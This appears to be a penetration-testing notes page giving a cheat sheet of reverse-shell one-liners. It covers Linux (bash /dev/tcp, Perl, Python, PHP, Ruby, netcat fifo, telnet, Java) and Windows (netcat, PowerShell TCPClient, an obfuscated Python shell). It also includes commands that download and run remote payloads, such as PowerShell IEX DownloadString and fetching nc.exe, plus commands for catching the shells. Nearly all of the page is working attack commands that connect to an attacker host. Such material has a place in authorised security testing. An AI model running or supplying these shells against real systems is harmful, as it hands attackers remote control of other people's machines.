 ```yaml
---
layout: default
title: Reverse Shells
---
```


# Reverse Shells
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Linux
### Bash

```shell
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

```shell
0<&196;exec 196<>/dev/tcp/<ip>/<port>; sh <&196 >&196 2>&19
```

```shell
exec 5<>/dev/tcp/<ip>/<port>
while read line 0<&5; do $line 2>&5 >&5; done
```

```shell
exec 5<>/dev/tcp/<ip>/<port>; cat <&5 | while read line; do $line 2>&5 >&5; done
```

```shell
sh -i >& /dev/udp/<ip>/<port> 0>&1
```
- UDP, use `-u` flag with nc for catching locally

### Perl

```shell
perl -e 'use Socket;$i="<ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```shell
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<ip>:<port>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
- no `/bin/sh`

### Python

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```shell
php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```shell
ruby -rsocket -e'f=TCPSocket.open("<ip>",<port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- no `/bin/sh`

### Netcat

```shell
nc -e <shell> <ip> <port>
/bin/sh | nc <ip> <port>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f  # no `-e` flag
```

Secure with whitelisted IP and SSL
```shell
ncat -e <shell> --allow <whitelisted ip> --ssl <ip> <port>  # Whitelist IP and use SSL
ncat -lvnp <port> --ssl                                            # Catch shell
```

### Telnet

```shell
rm -f /tmp/p; mknod /tmp/p p && telnet <ip> <port> 0/tmp/p
```

```shell
telnet <ip> <listen port> | /bin/bash | telnet <ip> <target port>
```
- listen locally on `<target port>`

### Java

```java
r = Runtime.getRuntime();
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ip>/<port>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);
p.waitFor();
```

### xterm

```shell
xterm -display <ip>:1
```
- Port 6001
- Locally, to catch the incoming session on port 6001 `Xnest :1`
- Locally, to authorise the target's connection `xhost +<ip>`

---

## Windows
### Netcat

Upload nc (e.g. hosted via `python -m SimpleHTTPServer 80` within /usr/share/windows-binaries)
```powershell
powershell Invoke-WebRequest -Uri 'http://10.10.10.10/nc.exe' -OutFile 'nc.exe'
```
```powershell
powershell (New-Object Net.WebClient).DownloadString('http://10.10.10.10/nc.exe', 'nc.exe')
```
```powershell
powershell Start-BitsTransfer -Source 'http://10.10.10.10/nc.exe' -Destination 'nc.exe'
```
```powershell
curl -o nc.exe http://10.10.10.10/nc.exe
```

Execute
```powershell
nc -e powershell 10.10.10.10 9999
```
```powershell
nc -e cmd 10.10.10.10 9999
```

### Perl

```powershell
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"<ip>:<port>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Download and execute remote PS file and execute (e.g. Nishang)
```powershell
powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/rev-shell.ps1')
```

### Python

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('<ip>', <port>)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

### Ruby

```powershell
ruby -rsocket -e 'c=TCPSocket.new("<ip>","<port>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
---

## Catching Shells
### Metasploit

```shell
use exploit/multi/handler
```

### Netcat

```shell
nc -lvnp <port>
```
- can use `-vv`/`-vvv` to debug with extra verbosity

--- 

## References
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
- <http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>
